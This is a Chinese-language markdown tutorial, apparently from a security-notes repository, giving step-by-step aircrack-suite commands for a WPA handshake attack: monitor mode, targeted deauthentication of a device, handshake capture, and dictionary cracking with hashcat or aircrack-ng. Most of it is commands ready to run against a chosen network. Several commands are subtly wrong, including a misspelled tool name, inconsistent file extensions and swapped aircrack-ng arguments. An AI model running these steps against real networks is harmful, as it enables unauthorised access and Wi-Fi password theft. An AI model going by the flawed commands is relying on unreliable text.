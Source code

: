 # WPA 握手包攻击

## 手动

1. 查看網絡設備, 獲取無線網卡名稱.

    ```sh
    iwconfig
    ```

2. 開啓無線網卡監聽模式.

    ```sh
    sudo airmon-ng start wlan0
    ```

    若设备被占用, 执行下列命令来结束占用设备的进程:  

    ```sh
    sudo airmon-ng check kill
    ```

    開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

    !!! warning
        監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 WiFi 信號.

    ```sh
    sudo airodunp-ng wlan0mon
    ```

    當發現目標 WiFi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 WiFi 通信內容.

    ```sh
    sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid  [BSSID] wlan0mon
    ```

5. 斷開指定設備與指定 WiFi 的鏈接.

    ```sh
    sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
    ```

    目標設備從指定 WiFi 斷開鏈接後將嘗試重連, 會向路由器發送握手包. 而第 4 步將會捕獲這個握手包.

6. 當第 4 步提示捕獲握手包時按下 `Ctrl+C` 結束監聽.

    此時, 握手包的數據已經被記錄在第4步指定的 `.cap` 文件中.

7. 對 `.cap` 文件中握手包的hash進行破解.

    - 使用 Hashcat. (推薦)

        ```sh
        aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
        hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
        ```

    - 使用 aircrack-ng.

        ```sh
        aircrack-ng -w [.cap存檔文件] [字典文件]
        ```

8. 關閉無線網卡監聽模式.

    ```sh
    sudo airmon-ng stop wlan0mon
    ```

    若第 2 步中结束的进程没有自动恢复, 则需要手动启动.

## 自动

可以利用 [wifite2](https://github.com/derv82/wifite2) 来简化上面的流程.  

![Wifite2 WAP Handshake attack](https://camo.githubusercontent.com/241679fd57d09ce160bbaf04886b896d1d101d405fc4d692954beefc8e477a07/68747470733a2f2f692e696d6775722e636f6d2f4636565068626d2e676966)
